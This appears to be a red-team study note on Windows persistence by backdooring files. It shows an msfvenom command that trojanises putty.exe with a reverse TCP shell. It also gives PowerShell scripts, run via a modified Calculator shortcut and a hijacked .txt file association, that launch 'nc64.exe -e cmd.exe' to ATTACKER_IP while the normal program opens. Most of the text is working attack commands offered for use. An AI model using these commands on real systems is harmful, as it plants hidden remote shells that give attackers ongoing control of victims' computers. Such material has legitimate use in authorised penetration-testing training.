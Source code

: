 # Backdooring Files

## Executable Files

If we find any executable files having hight chance that user might use it frequently then we can download the executable to our attacking machine and modify it to run payload.

For this we can use `msfvenom`.

```
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The outputed puttyX.exe will execute a reverse\_tcp meterpreter payload while doing its actual job.

## Shortcut Files

Instead of altering the actual executable file, we can tamper its shorcut file to execute backtoor and then execute the usual program.

<figure><img src="../../../.gitbook/assets/7a7349b9dcc5af3180044ee1d7605967.png" alt=""><figcaption></figcaption></figure>

In Calculator shortcut, we can change the target parameter to point to our malcious backdoor script.

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

we will save this script in `C:\Windows\System32\backdoor.ps1` then change the shortcut's Target Parameter as;

```
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```

## Hijacking File Associations

We can hijack any file association to force the operating system to run a shell whenever the user opens a specific file type.

In windows, file assocations are kept inside the registry `HKLM\Software\Classes`

<figure><img src="../../../.gitbook/assets/3ae1b8356b38a349090e836026d6d480.png" alt=""><figcaption></figcaption></figure>

For example, `.txt` is associated with `txtfile`  Programmatic ID (progid). progid is simply and identifier to a program installed ont he system.

We can further check the subkey of progid under `shell\open\command`

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

When we try to open .txt file, then system executes `%SystemRoot%\system32\NOTEPAD.EXE %1`, where `%1` represents the name of the opened file.

We can change this parameter to execute our backdoor script.

lets create backdoor.ps1 script and save it in c:\windows

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Then edit the registry value as;

<figure><img src="../../../.gitbook/assets/f7ed25a701cf20ea85cf333b20708ffe.png" alt=""><figcaption></figcaption></figure>

Then when .txt file is opened, out backdoor gets trigerred hence giving us shell.
